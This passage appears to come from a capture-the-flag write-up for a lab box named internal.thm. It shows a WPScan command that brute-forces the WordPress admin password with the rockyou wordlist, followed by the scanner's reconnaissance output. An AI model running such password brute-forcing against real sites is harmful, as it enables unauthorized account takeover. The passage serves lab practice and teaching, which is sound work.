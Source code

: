     Running WPScan  to attempt to brute-force the admin user password :

```bash
$wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/wp-login.php/ [10.10.192.249]
[+] Started: Sat Jan  7 05:32:13 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://internal.thm/blog/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Most Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |  - http://internal.thm/blog/wp-includes/css/dashicons.min.css?ver=5.4.2
 | Confirmed By:
 |  Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |   - http://internal.thm/blog/wp-includes/css/buttons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-includes/js/wp-util.min.js?ver=5.4.2
 |  Query Parameter In Install Page (Aggressive Detection)
 |   - http://internal.thm/blog/wp-includes/css/dashicons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-includes/css/buttons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-admin/css/forms.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-admin/css/l10n.min.css?ver=5.4.2

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

```